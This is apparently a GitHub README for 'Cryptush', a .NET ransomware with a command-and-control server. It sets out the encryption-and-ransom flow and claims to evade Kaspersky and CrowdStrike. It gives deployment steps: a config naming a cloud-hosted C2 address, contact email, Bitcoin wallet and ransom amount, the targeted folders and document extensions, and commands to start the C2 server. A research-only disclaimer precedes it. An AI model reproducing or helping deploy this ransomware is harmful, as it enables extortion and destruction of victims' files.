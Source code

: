 # Cryptush
An open-source .NET Ransomware

<p align="center">
    <img src="https://i.imgur.com/zuUXyET.png">
</p>


## Disclaimer

The tools is intended for research and threat emulation purposes only. I'm not reponsible for any malicious uses of this tool.

## The Flow

    1- A symmetric AES (256bit) key is generated.

    2- Documents are collected from predefeind directories including its sub-directories.

    3- The key is encrypted with a static public RSA key and sent to the C2 server.

    4- The C2 server returns an GUID for identification and logs the details to CryptushServer.log

    5- The encryption key is then deleted from memory on the victim host and a window is presented including a decryption option and a 24 hours timer.
    

## Notes

* The ransomeware will not run in there's no communication to the C2 server. 
A reconnect attempt will be made every 30 seconds.

## Help

* You can view details about the encrypted victims using the "list" command (hostname, username, launch time, time left for payment, etc.).

* You can view details about the encrypted files on each victim using the "files" command.

## AV Tests

* Kaspersky - PASS
* CrowdStrike - PASS


## Dependencies

* Client - .NET Framework 4.8
* Server - .NET core 5.0


## Getting Started

* Edit the app.config file inside the Cryptush folder with your details:

    <add key="ServerIP" value="ec2-3-68-73-27.eu-central-1.compute.amazonaws.com" />
    <add key="ServerPort" value="443" />
    <add key="Email" value="yuval555@gmail.com" />
    <add key="BtcWalletAddress" value="bc1qxy2kgdygjrsqtzq2n0yrf2493p83kkfjhx0wlh" />
    <add key="BtcAmount" value="0.035" />
    
* Select the folders to be encrypted in Cryptush.cs, the default is:

```
        public static string[] paths = {
            $"{desktopDir}\\test",
        };
```

* The default extensions are:

```
            var extensions = new List<string> { ".xls", ".doc", ".ppt", ".pdf", ".txt" };

```

You can change them in Cryptush/lib/Collector.cs


## Installing the server on Linux

```
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install -y dotnet-runtime-5.0
sudo dotnet CryptushServer.dll --ip=* --port=443
```
